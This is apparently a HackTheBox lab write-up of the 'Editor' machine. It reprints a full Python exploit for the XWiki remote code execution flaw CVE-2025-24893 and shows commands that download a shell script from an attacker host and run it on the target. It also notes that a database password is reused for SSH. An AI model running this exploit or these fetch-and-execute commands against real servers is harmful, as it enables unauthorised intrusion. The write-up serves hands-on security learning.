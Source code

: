 ```yaml
---
layout: post
title: "Editor HTB Writeup"
date: 2025-08-10 09:01:00 +0300
categories: [HackTheBox, Machines]
tags: [cybersecurity, wikicms, hackthebox, machines,hacking]
---
```



# 🎰 Editor HTB Writeup

Today i'll talk about Editor HTB machine. This machine is about WikiCMS and RCE (CVE-2025-24893)
> `CVE-2025-24893` is a RCE vulnerability in WikiCMS.
{: .prompt-warning }
---

## NMAP & Enumeration
After a quick scan in nmap and ffuf, I saw this output in nmap.

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 16:55 +03
Nmap scan report for editor.htb (10.10.11.80)
Host is up (0.34s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port 80 is about a download page for editor application.
Port 8080 is WikiCMS and after a quick search in exploit-db, I realized WikiCMS has RCE vulnerability.

### (PoC)[https://github.com/Artemir7/CVE-2025-24893-EXP]
```python
import argparse
import requests
import re
from urllib.parse import urljoin, quote
import html

BANNER = """
===========================================================
                   CVE-2025-24893
            XWiki Remote Code Execution Exploit
                      Author: Artemir
===========================================================
"""

def extract_output(xml_text):
    decoded = html.unescape(xml_text)
    match = re.search(r"\[}}}(.*?)\]", decoded)
    if match:
        return match.group(1).strip()
    else:
        return None

def exploit(url, cmd):
    headers = {
        "User-Agent": "Mozilla/5.0",
    }

    payload = (
        "}}}{{async async=false}}{{groovy}}"
        f"println('{cmd}'.execute().text)"
        "{{/groovy}}{{/async}}"
    )

    encoded_payload = quote(payload)
    exploit_path = f"/xwiki/bin/get/Main/SolrSearch?media=rss&text={encoded_payload}"
    full_url = urljoin(url, exploit_path)

    try:
        response = requests.get(full_url, headers=headers, timeout=10)
        if response.status_code == 200:
            output = extract_output(response.text)
            if output:
                print("[+] Command Output:")
                print(output)
            else:
                print("[!] Exploit sent, but output could not be extracted.")
                print("[*] Raw response (truncated):")
                print(response.text[:500])
        else:
            print(f"[-] Failed with status code: {response.status_code}")
    except requests.RequestException as e:
        print(f"[-] Request failed: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2025-24893 - XWiki RCE PoC")
    parser.add_argument("-u", "--url", required=True, help="Target base URL (e.g. http://example.com)")
    parser.add_argument("-c", "--cmd", required=True, help="Command to execute")

    args = parser.parse_args()
    exploit(args.url, args.cmd)
```
## Usage of The Exploit 
```
python sa.py -u http://editor.htb:8080 -c "curl http://10.10.14.35:8080/ -O /tmp/exp.sh"
python sa.py -u http://editor.htb:8080 -c "bash /tmp/exp.sh"
```
### Getting Database Password
I see the password of database in `hibernate.cfg.xml`. The password is same with SSH.

# End
This machine is a great example of the importance of the updating.
Happy Hacking <3
